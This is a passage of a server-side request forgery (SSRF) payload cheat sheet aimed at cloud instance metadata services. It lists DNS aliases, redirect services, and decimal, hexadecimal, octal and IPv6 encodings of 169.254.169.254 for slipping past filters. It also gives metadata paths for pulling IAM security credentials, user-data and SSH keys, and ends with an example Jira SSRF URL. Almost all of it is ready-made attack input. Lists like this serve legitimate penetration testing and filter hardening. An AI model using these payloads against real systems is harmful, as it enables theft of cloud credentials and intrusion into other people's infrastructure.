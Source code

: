 DNS record

```powershell
http://instance-data
http://169.254.169.254
http://169.254.169.254.nip.io/
```

HTTP redirect

```powershell
Static:http://nicob.net/redir6a
Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
```

Alternate IP encoding

```powershell
http://425.510.425.510/ Dotted decimal with overflow
http://2852039166/ Dotless decimal
http://7147006462/ Dotless decimal with overflow
http://0xA9.0xFE.0xA9.0xFE/ Dotted hexadecimal
http://0xA9FEA9FE/ Dotless hexadecimal
http://0x41414141A9FEA9FE/ Dotless hexadecimal with overflow
http://0251.0376.0251.0376/ Dotted octal
http://0251.00376.000251.0000376/ Dotted octal with padding
```

More urls to include

```powershell
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
```

AWS SSRF Bypasses
```
Converted Decimal IP: http://2852039166/latest/meta-data/
IPV6 Compressed: http://[::ffff:a9fe:a9fe]/latest/meta-data/
IPV6 Expanded: http://[0:0:0:0:0:ffff:a9fe:a9fe]/latest/meta-data/
IPV6/IPV4: http://[0:0:0:0:0:ffff:169.254.169.254]/latest/meta-data/
```

E.g: Jira SSRF leading to AWS info disclosure - `https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance`
